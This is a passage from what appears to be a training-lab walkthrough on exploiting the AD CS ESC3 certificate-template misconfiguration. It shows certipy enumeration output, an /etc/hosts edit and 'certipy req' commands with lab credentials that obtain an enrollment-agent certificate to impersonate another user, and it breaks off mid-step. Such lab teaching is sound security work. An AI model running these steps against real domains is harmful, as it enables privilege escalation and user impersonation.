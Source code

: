 ```
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
    [!] Vulnerabilities
      ESC3                              : 'LAB.LOCAL\\Domain Users' can enroll and template has Certificate Request Agent EKU set
```

Before abusing `ESC3`, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC3`, students first need to use the `req` command of `certipy`, specifying the template `ESC3` for the `-template` option; students will attain a `PFX` certificate for the `blwasp` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC3
```

```
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC3

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 71
[*] Got certificate with UPN 'blwasp@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-1103'
[*] Saved certificate and private key to 'blwasp.pfx'
```

Utilizing the certificate, students then need to use the `req` command of `certipy`, specifying the `User` template for the `-template` option, and the user `Haris` for the `-on-behalf-of` option; students will discover that `Haris`'s [objectSID](https://learn.microsoft.com/en-us/windows/win32/adschema/a-objectsid) is `S-1-5-21-2570265163-3918697770-3667495639-2602`:

Code: shell

